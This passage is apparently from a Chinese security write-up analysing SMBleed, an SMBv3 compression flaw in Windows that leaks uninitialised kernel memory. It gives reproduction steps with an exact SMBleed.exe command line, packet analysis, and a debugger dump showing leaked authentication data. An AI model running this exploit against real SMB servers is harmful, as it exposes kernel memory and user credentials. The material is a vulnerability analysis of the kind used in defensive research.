 那如果我们将 OriginalCompressedSegmentSize 设置为比实际压缩的数据长度大的数，让系统认为解压后的数据长度就是 OriginalCompressedSegmentSize 大小，是不是也可以泄露内存中的数据（类似于心脏滴血）。如下所示，POC 中将 OriginalCompressedSegmentSize 设置为 x + 0x1000，offset 设置为 0，最终得到解压后的数据 (长度为 x)，其后面跟有未初始化的内核数据 ，然后利用解压后的 SMB2 WRITE 消息泄露后面紧跟着的长度为 0x1000 的未初始化数据。

![](https://images.seebug.org/content/images/2020/09/24/1600927612000-4qgtyb.png-w331s)

### 漏洞复现

在 Win10 1903 下使用公开的 SMBleed.exe 进行测试（需要身份认证和可写权限）。步骤如下： _共享 C 盘，确保允许 Everyone 进行更改（或添加其他用户并赋予其读取和更改权限）_ 在 C 盘下创建 share 目录，以便对文件写入和读取 * 按照提示运行 SMBleed.exe 程序，例：SMBleed.exe win10 127.0.0.1 DESKTOP-C2C92C6 strawberry 123123 c share\test.bin local.bin

以下为获得的 local.bin 中的部分信息：![](https://images.seebug.org/content/images/2020/09/24/1600927613000-5ahphj.png-w331s)

### 抓包分析

在复现的同时可以抓包，可以发现协商之后的大部分包都采用了 SMB 压缩（ProtocalId 为 0x424D53FC）。根据数据包可判断 POC 流程大概是这样的：SMB 协商 -> 用户认证 -> 创建文件 -> 利用漏洞泄露内存信息并写入文件 -> 将文件读取到本地 -> 结束连接。

注意到一个来自服务端的 Write Response 数据包，其 status 为 STATUS_SUCCESS，说明写入操作成功。ZecOps 在文章中提到过他们利用 [SMB2 WRITE 消息](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/e7046961-3318-4350-be2a-a8d69bb59ce8)来演示此漏洞，因而我们需要关注一下其对应的请求包，也就是下图中 id 为 43 的那个数据包。

![](https://images.seebug.org/content/images/2020/09/24/1600927613000-6pxmog.png-w331s)

下面为触发漏洞的 SMB 压缩请求包，粉色方框里的 OriginalCompressedSegmentSize 字段值为 0x1070，但实际压缩前的数据只有 0x70，可借助 SMB2 WRITE 将未初始化的内存泄露出来。

![](https://images.seebug.org/content/images/2020/09/24/1600927614000-7iaalj.png-w331s)

以下为解压前后数据对比，解压前数据大小为 0x3f，解压后数据大小为 0x70（真实解压大小，后面为未初始化内存），解压后的数据包括 SMB2 数据包头（0x40 长度）和偏移 0x40 处的 SMB2 WRITE 结构。在这 SMB2 WRITE 结构中指明了向目标文件写入后面未初始化的 0x1000 长度的数据。

```
3: kd> 
srv2!Srv2DecompressData+0xdc:
fffff800`01e17f3c e86f657705      call    srvnet!SmbCompressionDecompress (fffff800`0758e4b0)
3: kd> dd rdx   //压缩数据
ffffb283`210dfdf0  02460cc0 424d53fe 00030040 004d0009
ffffb283`210dfe00  18050000 ff000100 010000fe 00190038
ffffb283`210dfe10  0018f800 31150007 00007000 ffffff10
ffffb283`210dfe20  070040df 00183e00 00390179 00060007
ffffb283`210dfe30  00000000 00000000 00000000 00000000
ffffb283`210dfe40  00000000 00000000 00000000 00000000
ffffb283`210dfe50  00000000 00000000 00000000 00000000
ffffb283`210dfe60  00000000 00000000 00000000 00000000

3: kd> db ffffb283`1fe23050 l1070  //解压后数据
ffffb283`1fe23050  fe 53 4d 42 40 00 00 00-00 00 00 00 09 00 40 00  .SMB@.........@.
ffffb283`1fe23060  00 00 00 00 00 00 00 00-05 00 00 00 00 00 00 00  ................
ffffb283`1fe23070  ff fe 00 00 01 00 00 00-01 00 00 00 00 f8 00 00  ................
ffffb283`1fe23080  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffb283`1fe23090  31 00 70 00 00 10 00 00-00 00 00 00 00 00 00 00  1.p.............
ffffb283`1fe230a0  00 00 00 00 3e 00 00 00-01 00 00 00 3e 00 00 00  ....>.......>...
ffffb283`1fe230b0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffb283`1fe230c0  4d 53 53 50 00 03 00 00-00 18 00 18 00 a8 00 00  MSSP............
ffffb283`1fe230d0  00 1c 01 1c 01 c0 00 00-00 1e 00 1e 00 58 00 00  .............X..
ffffb283`1fe230e0  00 14 00 14 00 76 00 00-00 1e 00 1e 00 8a 00 00  .....v..........
ffffb283`1fe230f0  00 10 00 10 00 dc 01 00-00 15 82 88 e2 0a 00 ba  ................
ffffb283`1fe23100  47 00 00 00 0f 42 75 7d-f2 d2 46 fe 0f 4b 14 e0  G....Bu}..F..K..
ffffb283`1fe23110  c5 8f fc cd 0a 44 00 45-00 53 00 4b 00 54 00 4f  .....D.E.S.K.T.O
ffffb283`1fe23120  00 50 00 2d 00 43 00 32-00 43 00 39 00 32 00 43  .P.-.C.2.C.9.2.C
ffffb283`1fe23130  00 36 00 73 00 74 00 72-00 61 00 77 00 62 00 65  .6.s.t.r.a.w.b.e
ffffb283`1fe23140  00 72 00 72 00 79 00 44-00 45 00 53 00 4b 00 54  .r.r.y.D.E.S.K.T
ffffb283`1fe23150  00 4f 00 50 00 2d 00 43-00 32 00 43 00 39 00 32  .O.P.-.C.2.C.9.2
```